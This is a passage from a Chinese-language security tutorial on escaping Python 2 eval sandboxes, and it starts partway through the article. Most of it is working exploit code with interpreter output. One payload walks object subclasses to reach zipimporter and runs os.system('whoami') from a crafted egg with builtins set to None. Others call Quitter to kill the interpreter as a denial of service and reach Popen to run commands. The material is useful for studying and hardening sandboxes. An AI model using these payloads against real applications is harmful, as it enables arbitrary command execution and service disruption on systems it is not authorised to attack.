 ```
python setup.py bdist_egg

```

就可以在dist文件夹中找到对应的egg文件。 绕过demo如下：

```
>>> env = {}
>>> env["locals"]   = None
>>> env["globals"]  = None
>>> env["__name__"] = None
>>> env["__file__"] = None
>>> env["__builtins__"] = None
>>> users_str = "[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ == 'zipimporter'][0]('E:/internships/configobj-5.0.5-py2.7.egg').load_module('configobj').os.system('whoami')"
>>> eval(users_str, env)
win-20140812chj\administrator
0
>>> eval(users_str, {}, {})
win-20140812chj\administrator
0

```

0x03 拒绝服务攻击1
============

* * *

object的子类中有很多有趣的东西，执行以下代码查看：

```
[x.__name__ for x in ().__class__.__bases__[0].__subclasses__()]

```

这里我就不输出结果了，如果你执行的话，可以看到很多有趣的模块，比如file，zipimporter，Quitter等。经过测试，file的构造函数是被解释器沙箱隔离的。 简单的，或者直接使object暴露出的子类Quitter进行退出：

```
>>> eval("[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__
 == 'Quitter'][0](0)()", {'__builtins__':None})

C:/>

```

如果运气好，遇到对方程序中导入了`os`等敏感模块，那么Popen就可以用，并且绕过`__builins__`为空的限制，栗子如下：

```
>>> import subprocess
>>> eval("[x for x in ().__class__.__bases__[0].__subclasses__() if x.__name__ == 'Popen'][0](['ping','-n','1','127.0.0.1'])",{'__builtins__':None})
<subprocess.Popen object at 0x0324FF70>
>>>
正在 Ping 127.0.0.1 具有 32 字节的数据:
来自 127.0.0.1 的回复: 字节=32 时间<1ms TTL=64
127.0.0.1 的 Ping 统计信息:
    数据包: 已发送 = 1，已接收 = 1，丢失 = 0 (0% 丢失)，
往返行程的估计时间(以毫秒为单位):
    最短 = 0ms，最长 = 0ms，平均 = 0ms
>>>

```

